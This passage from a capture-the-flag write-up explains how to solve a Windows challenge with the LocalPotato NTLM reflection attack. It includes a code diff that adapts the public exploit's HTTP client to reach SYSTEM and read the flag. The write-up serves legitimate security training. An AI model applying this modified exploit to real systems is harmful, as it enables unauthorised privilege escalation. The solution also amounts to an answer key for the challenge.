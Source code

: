 The challenge description hints directly at a solution by linking to a [blog post](https://decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/) about the LocalPotato attack. This post outlines a technique that swaps a local user's authentication context with that of `NT AUTHORITY\SYSTEM` via NTLM reflection/relay attacks. This vulnerability allows participants to execute SYSTEM-level commands, even though they have only low-privileged access.

To understand the full solution, participants should review the details in the blog post. The vulnerability affects both the SMB and HTTP protocols, although Microsoft has patched SMB. HTTP endpoints are still vulnerable, particularly if they are not protected with HTTPS/TLS or Extended Protection for Authentication. The blog post discusses this in detail and provides the LocalPotato exploit, which can be found on [GitHub](https://github.com/decoder-it/LocalPotato).

The strategy for the challenge is simple: exploit the NTLM reflection vulnerability using LocalPotato. Once SYSTEM privileges are achieved, participants can run the command `cat /flag/flag.txt` to retrieve the flag.

## Exploitation

First, participants must download the LocalPotato exploit to the development machine or their local VM. Inside the `HTTPClient.cpp` file, participants can find the methods necessary to attack HTTP endpoints. However, the exploit is designed to interact with WebDAV, so it requires some modifications to work with the web shell on the challenge server.

Below is the necessary modification (with some nice-to-have debug output modifications), replacing the WebDAV-related code with HTTP request handling:

```diff
diff --git a/HTTPClient.cpp b/HTTPClient.cpp
index 5a13499..659c1bf 100644
--- a/HTTPClient.cpp
+++ b/HTTPClient.cpp
@@ -65,12 +65,10 @@ BOOL DoAuthenticatedGETHTTP(SOCKET s, wchar_t* httpPageUrl) {
     {
         return(FALSE);
     }
-    sendbuffer = ForgeHTTPWebDavRequestType0(&len, httpHost, httpPageUrl);
-    send(s, sendbuffer, len, 0);
-    reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
     
-    sendbuffer = ForgeHTTPWebDavRequestType1((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
+    sendbuffer = ForgeHTTPRequestType1((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
     send(s, sendbuffer, len, 0);
+    printf("[*] Sending: %s\n", sendbuffer);
 
     // handling ntlm type2 part with context swapping
     reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
@@ -96,11 +94,18 @@ BOOL DoAuthenticatedGETHTTP(SOCKET s, wchar_t* httpPageUrl) {
     WaitForSingleObject(event3, INFINITE);
 
     // handling ntlm type3
-    sendbuffer = ForgeHTTPWebDavRequestType3((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
+    sendbuffer = ForgeHTTPRequestType3((char*)pOutBuf, cbOut, &len, httpHost, httpPageUrl);
     send(s, sendbuffer, len, 0);
+    printf("[*] Sending: %s\n", sendbuffer);
 
     // getting response from server
     reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
+    recBuffer[reclen] = '\0';
+    printf("[*] Received: %s\n", recBuffer);
+    reclen = recv(s, recBuffer, DEFAULT_BUFLEN, 0);
+    recBuffer[reclen] = '\0';
+    printf("Received: %s\n", recBuffer);
+    exit(0);
     /*if (recBuffer[9] == '2' && recBuffer[10] == '0' && recBuffer[11] == '0') {
         printf("[+] HTTP reflected DCOM authentication succeeded!\n");
```
